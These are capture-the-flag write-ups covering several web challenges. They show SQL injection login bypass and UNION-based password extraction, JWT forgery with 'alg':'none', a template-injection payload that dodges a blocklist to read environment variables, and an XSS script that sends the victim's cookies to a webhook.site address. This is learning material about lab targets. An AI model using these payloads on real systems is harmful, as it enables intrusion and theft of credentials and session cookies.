# Database Incursion 2.0
Database Incursion V2

Directly access the challenge server at https://database-incursion-v2.nitephase.live/

## Flag 

```bash

```

## Solve 
* First, as I saw the username password access portal, I used a standard SQL injection to bypass the username and password to get in 



* Then the first row gives a hint as Drake tells that "I heard someone from Management has the passcode



* I ran ```' OR Department='Management' --```
* Show the lists that only have Management as their Department which gave another hint



* Ran both the conditions(department is Management and name is Kiwi) to find her and the admin passcode
* So I ran ```' OR (Department='Management' AND Name='Kiwi') --```



* Passcode is ecSKsN7SES





* I then ran the following to list out all the tables()



* Mainly CITADEL_ARCHIVE_2077 stood out.

* So then I ran ```' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE name='CITADEL_ARCHIVE_2077' --``` to find more info out



* Finding out that there are two columns ID and Secrets
* Then I run the following to find the flag



## Concepts Learnt
* How to use UNION query to combine the sets of two results into a single one, and its conditions to use NULL to use up the unnessesary columns 
* Better understanding of SQLi

# Temporal Token
I made my own website with custom auth, but why can't i login with my credentials?

```
Username: Belegar
Password: Ironhammer
```

Directly access the challenge server at https://temporal-token.nitephase.live

## Flag 
```bash
nite{50_y0u_kn0w_h0w_jw75_w0rk_n0w?}
```

## Solve 
* First I input the username and password and logged in
* I analysed the response and loaded up inspect tool
* In inspect tool I analysed the token value



* Now analysing the token, it was divided into 3 parts by .
* This implies that it is a JWT Token and therefore it is base64 encoded
* I ran the token contents in a JWT decoder
* Found its header and payload decoded content 



* I then copied the header and payload onto base64 encoders but changed content:
    * ```"alg"="none"```
    * ```"exp"="1000000000000"```
* Then I encoded this edit back to base64 and then changed the token value of the cookie and refreshed the website to get the flag



## Notes
* JWT(JSON Web Token) Tokens are tokens passed between a client and server as a cookie for authentication, authorization and data
* JWT Token content is base64 encoded
* JWT Token consists of ```HEADER.PAYLOAD.SIGNATURE```
* The main exploit they have is that due to the weak JWT Validation you can make the server accept ```"alg":"none"``` 
    * Improper verification of HS256 signature means I can change the expiration ```exp``` and extend it and remove signature

## Sources
* [JWT Decoder](https://www.jwt.io/)
* [Base64 encoder and decoder](https://www.base64decode.org/)
* [About JWT Token](https://www.geeksforgeeks.org/web-tech/json-web-token-jwt/)

#  Oneshot
Directly access the challenge server at https://pacman-git-master-mrrobot404s-projects.vercel.app

## Flag 
```bash
nite{are_you_feeling_the_heat_now :)}
```

## Solve 
* After analysing app.py, I understood that each session generated a random new database table with a random ID and random password
* I open inspect tool to check the random 16 hex valued table in the session.



* In the app.py file, the search route had the query directly input to the SQL commands which means we can use SQLi
* However the guess route used a request to fetch the password of the session(parameterized) that is generated which means we cannot use SQLi
* This means we need to use SQLi to extract the password of the instance in one go during one search 
* This lead to a huge SQLi code to attack the search
* The code is: 
    ```SQL
    ' AND 0 UNION ALL SELECT substr(password,1,1) FROM table_ca4116497077c063
    UNION ALL SELECT substr(password,2,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,3,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,4,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,5,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,6,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,7,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,8,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,9,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,10,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,11,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,12,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,13,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,14,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,15,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,16,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,17,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,18,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,19,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,20,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,21,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,22,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,23,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,24,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,25,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,26,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,27,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,28,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,29,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,30,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,31,1) FROM table_ca4116497077c063 
    UNION ALL SELECT substr(password,32,1) FROM table_ca4116497077c063 --
    ```

* The ```AND 0``` is to make sure the output is just from the SQLi attack
* The ```UNION ALL SELECT substr(password,N,1) FROM table_ca4116497077c063``` where N is the character index of the password, the given code only outputs one at character at a time so the length(parameter 3 of substr) is equal to one and repeated using UNION until the end of the password  



* As shown, we have the password, I concatted each character top to bottom and found input the password to get the flag.



## Concepts Learnt
* More SQL injection interaction and understanding
* How to spot vulnurablities in the backend

# Sweet Haven 

## To build and start.

First `cd` into the `src` directory. Then run:

```bash
docker-compose up --build -d
```

The website will be accessible at http://localhost:1234

After solving locally, access the challenge server at http://sweethaven.nitephase.live:57889

## Flag

```bash
nite{s5t1_w17h_un1c0d3_35c4p3_byp455}
```

## Solve 
* First I loaded up docker as instructed and ran the challenge locally at http://localhost:1234/
* Then I registered and logged into the system using a random username and password



* Then I analysed the backend app.py file given
* After some research I understood that we have to use SSTI Injection and used a common injection to confirm this assumption
* First injection to test I put ```${7*7}``` which gave this review



* This made it clearer that I'm doing something right but not exactly right
* So I went through app.py again to find the root why this is happening and noticed the following:



* This implies that any review input that is "malicious" according to this code will produce "Best coffee I had".
* This "malicious" reviews lie in the catagory of r"(\\[xu0-9]|\$|'|APOSTROPHE)" which have multiple parameters to prevent malicious attack including the dollar sign we used.
* And in the else statement ```review = bytes(review, "utf-8").decode("unicode_escape")``` implies that it converts strings into raw bytes and interprets backslash sequences as real characters and everything after the main part of the backslash will be interpreted as a python escape sequence. 
* A particular unicode character can be used as an escape sequence and represent a dollar sign - ```\N{DOLLAR SIGN}``` which is not a part of the "malicious" list of the code
* So I load up ```\N{DOLLAR SIGN}{7*7}``` which should pass all the conditions



* And now I can then use SSTI injections in this manner
* After going through SSTI injections, I got - 
    ```bash
    \N{DOLLAR SIGN}{cycler.__init__.__globals__.__builtins__.__import__(cycler.__init__.__globals__.__builtins__.chr(111)+cycler.__init__.__globals__.__builtins__.chr(115)).environ}
    ```
* I got the data doing this 



* And got to know that the flag variable is FLAG
* So I tagged a .FLAG at the end of the data SSTI injection to print out the flag as a review using SSTI Injection and found the flag
```bash
\N{DOLLAR SIGN}{cycler.__init__.__globals__.__builtins__.__import__(cycler.__init__.__globals__.__builtins__.chr(111)+cycler.__init__.__globals__.__builtins__.chr(115)).environ.FLAG}
```



* Then I used the same SSTI injection in the actual website http://sweethaven.nitephase.live:57889/ and got the flag 



## Sources
* [SSTI Injection information 1](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
* [SSTI Injection information 2](https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/)

# Why is it not called css

## To build and start.

First `cd` into the `src` directory. Then run:

```bash
docker-compose up --build -d
```

The website will be accessible at http://localhost:56743

After solving locally, access the challenge server at http://whyisitnotcalledcss.nitephase.live:56743

## Flag
```bash
nite{b3c4u53_c45c4d1n6_57yl3_5h3375_4lr34dy_3x1575}
```

## Solve
* First I learn what are XSS Injections
* Now, since the browser I'm running isn't the one with the flag but the victim's, I must swipe the cookies from the victim's browser 
* For this we use a temporary server in [Webhook](https://webhook.site/#!/view/7f489ba2-1a7c-4128-a4bc-bd5a2a7908cc/e1d4c851-916b-45c1-98e1-cb1f2ad6c04b/1) this allows me to intercept the cookies and view them when I input my XSS Injections.



* So I run the XSS ME 1 website and send the XSS Injection into payload: 
```<script>new Image().src="https://webhook.site/7f489ba2-1a7c-4128-a4bc-bd5a2a7908cc?c="+document.cookie;</script>```

